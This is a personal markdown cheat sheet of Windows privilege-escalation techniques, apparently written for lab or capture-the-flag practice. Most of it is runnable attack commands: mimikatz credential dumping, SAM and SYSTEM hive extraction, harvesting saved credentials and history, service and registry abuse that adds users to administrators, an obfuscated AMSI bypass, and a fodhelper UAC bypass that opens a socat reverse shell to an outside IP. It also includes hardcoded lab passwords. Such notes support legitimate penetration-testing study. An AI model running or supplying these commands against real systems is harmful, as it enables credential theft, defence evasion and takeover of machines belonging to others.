 #### checklist
- **use enumeration tools**
	- winpeas
	- bloodhound - AD env
	- PowerView
	- PowerUp
	- mimikatz
- [Wadcom](https://wadcoms.github.io/) Cheat sheet for windows offensive tools
- remember to use **netcat** for reverse shells!
- check users in local machine and domain
- check groups in local machine and domain
- check current user groups
- check current user permissions --- what?
- check config files 
- check log files
- check Unattended files
- check powershell history
- check if AV enabled
- Unquoted Service Paths
- Insecure Permissions on Service Executable
- Insecure Service Permissions
- Unpatched Software
- Weak Registry permissions
- writable StartUp Folders
- Windows AutoLogon credentails

- exploiting privileges [show me your privs, and I will lead you to system](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)
- kernel exploits: https://github.com/ASR511-OO7/windows-kernel-exploits
- offsec exploits db: https://github.com/offensive-security/exploitdb-bin-sploits
- AD cheatsheet : https://wadcoms.github.io/
- sweet potato rule all [potato exploits](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 

- command to-go list
```powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember adminteam
systeminfo
ipconfig /all
route print
netstat -nao
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\users -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
runas /user:backupadmin cmd
cat C:/xampp/mysql/bin/mysql.ini
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# windows creds object & winrm from powershell 
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
##
```

- mimikatz
```powershell
privilege::debug
sekurlsa::logonPasswords full
sekurlsa::wdigest
lsadump::sam
lsadump::secrets
lsadump::cache
sekurlsa::dpapi

```

### Unattended Windows Installations
```
# credentails such as <Password>
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
### IIS config path
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
### powershell & cmd
```powershell
# secrets dump SAM SYSTEM
secretsdump.py -sam sam -system system local
# putty proxy credentails 
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
# copy system/sam files
reg save HKLM\SAM C:\sam
reg save HKLM\SYSTEM C:\system
# read encrypted file 
$ss = Import-CliXml -Path user.txt
$ss.GetNetworkCredential().Password # password is property to read
# find db connections in IIS config file
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

# winlogon logged users credentials
reg query "HKLM\SOFTWARE\microsoft\windows nt\currentversion\winlogon"
# saved windows credentails| if creds exist can be used with runas
cmdkey /list 

# AutoRuns - check permisisons  | run on user login
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# read saved powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# run cmd as another user
runas /savecred /user:mike cmd.exe

# scheduled tasks
schtasks /query /tn vulntask /fo list /v

# find unquoted services
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

# ----exploiting----- 
#AlwaysInstallElevated|check regs files set to 1,if exist create msi shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
msiexec /quiet /qn /i payload.msi
# if nt/INTERACTIVE has full perms use exploit to run c code as localSystem
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
#confirm exploitation
net localgroup administrators
# filepermservice.exe service 
accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
sc start filepermsvc
# abuse startup files at login
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# permissions using accesschk64 | SERVICE_CHANGE_CONFIG
accesschk64.exe -wuvc daclsvc
sc config daclsvc binpath= "net localgroup administrators user /add"
sc start daclsvc
# Hot Potato exploit
Import-Module Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"

```
- powershell
```powershell
# download files
Invoke-WebRequest -URI $URL -OutFile $Path
#
(New-Object System.Net.WebClient).DownloadFile($URL, $Path)
(New-Object System.Net.WebClient).DownloadString($URL)
#
Start-BitsTransfer -Source $URL -Destination $Path
# 
certutil.exe -urlcache -split -f $URL $Path
# find file
Get-ChildItem -Path . -Recurse -Include flag
#bypass execution policy
powershell.exe -nop -ep bypass
# start a process as another user
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -FilePath "C:\temp\shell.ps1" -Credential $cred -Computer localhost

```

- check list
```
Unquoted Service Paths
Insecure Permissions on Service Executable
Insecure Service Permissions
Unpatched Software
Weak Registry permissions
writable StartUp Folders

```
- Windows Privileges:
```
SeBackup / SeRestore
SeTakeOwnership
SeImpersonate / SeAssignPrimaryToken 

```
- tools
```
WinPEAS
PrivescCheck
WES-NG: Windows Exploit Suggester - Next Generation
Metasploit
```

- firewall and AntiVirus
```powershell

#AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

```

- UAC bypass
```powershell
# if GUI avaliable choose cmd
msfconfig.exe

# foodhelper bypass windows AV and spawn shell
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.129.32:4445 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
# tool
https://github.com/hfiref0x/UACME
```
